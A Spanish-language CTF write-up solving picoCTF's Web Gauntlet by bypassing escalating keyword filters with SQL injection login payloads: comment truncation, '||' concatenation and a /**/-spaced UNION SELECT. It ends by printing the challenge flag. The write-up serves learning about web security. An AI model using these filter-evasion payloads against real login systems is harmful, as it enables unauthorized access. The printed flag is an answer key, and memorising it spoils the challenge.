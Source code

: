 ```yaml
---
layout: post
title: picoCTF web gauntlet - sql injection y evadiendo filtros
author: c4rta
date: 2023-01-04
categories: [Desafios Web]
tags: [SQL injection]
description: >
    En este desafio hay que evadir un par de filtros para conseguir la flag
image: 
  path: /assets/img/web-gaunlet/waifu.jpg
---
```


{:.lead}

Para este desafio tenemos que hacer bypass de varios filtros usando sql injection, el SGBD es sqlite y el usuario para todos los casos es ```admin```

```http://jupiter.challenges.picoctf.org:41560/``` --> Pagina vulnerable

```http://jupiter.challenges.picoctf.org:41560/filter.php``` --> Filtro de cada round

## Round 1

El primer filtro de debemos de evadir es ```or```, al llenar los campos y presionar en ```sign in``` vemos como nos muestra la consulta, la cual es:

```SELECT * FROM users WHERE username='admin' AND password='admin'```


Aun que no hayamos conseguido iniciar, podemos ver que se esta usando el operador ```AND```, y ```AND``` permite usar multiples condiciones en un ```WHERE```, al usar ```AND```, se asume que que toda la condicion es verdadera, cuando cada condicion sea verdadera.

Ademas debemos de evadir ```OR```, que lo que hace es combinar varias condiciones en un ```WHERE```, y al usarlo se asume que la condicion completa es verdadera cuando cualquiera de las condiciones sea verdadera.

Asi que como sabemos que el usuario debe ser ```admin```, lo que podemos hacer es escapar la consulta desde el ```AND``` para que toda la condicion sea verdadera y asi se cumpliria la condicion ```AND``` ya que ahora la contraseña es igual a lo que le pasemos como input, ```0R``` ya que esta cumpliendo una condicion que es que el usuario sea ```admin``` y ademas omitimos la contraseña, esto lo hacemos comentando desde ```AND```, y queda algo asi:

usuario: ```admin'--```
contra: --> esto puede ser lo que sea


### Round 2

En este round no podemos usar ```OR``` y ```--```, pero realmente es lo mismo que el anterior, ya que en sqlite hay dos tipos de comentario, uno es ```--``` y otro es ```/*``` (la explicacion es la misma).

usuario: ```admin' /*```

Y otra manera de solucionarlo es acortar la consulta, esto para que solo haya una condicion, es decir que el usuario sea admin, la consulta queda asi

```SELECT * FROM users WHERE username='admin';```

Y el input queda asi:

usuario: ```admin;```


### Round 3

Ahora no podemos usar ```OR```, espacios y ```--```, pero esto no importa ya que aun podemos acortar la consulta como en el round pasado y todo queda igual, asi:

```SELECT * FROM users WHERE username='admin';```

El input queda asi:

usuario: ```admin';```

## Round 4

Ahora no podemos usar ```OR```, espacios, ```--``` y la palabra ```admin```.

La manera mas evidente de resolverlo es separar la palabra admin y luego concaternarla, esto lo podemos hacer con ```||``` y luego comentar todo lo demas, de esta manera:

```SELECT * FROM users WHERE username='adm'||'in'/*```

Y como input le podemos pasar esto

```adm'||'in'/*```

Otra manera de resolverlo es usando el operador ```UNION``` y la consulta quedaria algo asi:

```SELECT * FROM users WHERE username='c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

Esto hace dos consultas, la primera es:

```SELECT * FROM users WHERE username='c4rta'```

Y la segunda:

```SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

```UNION``` combina los SELECT, ```/**/``` entre todas las palabras representan los espacios en blanco. Y tenemos que incluir la parte LIMIT 1 porque generalmente en una base de datos, el administrador es la primera entrada de la tabla y con esta consulta, simplemente recuperamos la primera línea, que en este caso es el administrador, entonces nuestro input queda:


usuario: ```c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

## Round 5

Aun que ahora ya no podemos usar el ```UNION``` y todos los demas filtros anteriores, podemos separar la palabra ```admin``` y luego concatenarla, osea que podemos usar uno de los payloads de round 4 y entonces queda asi:

usuario: ```adm'||'in'/*```

Y la flag es: ```picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/web-gaunlet/waifu.jpg)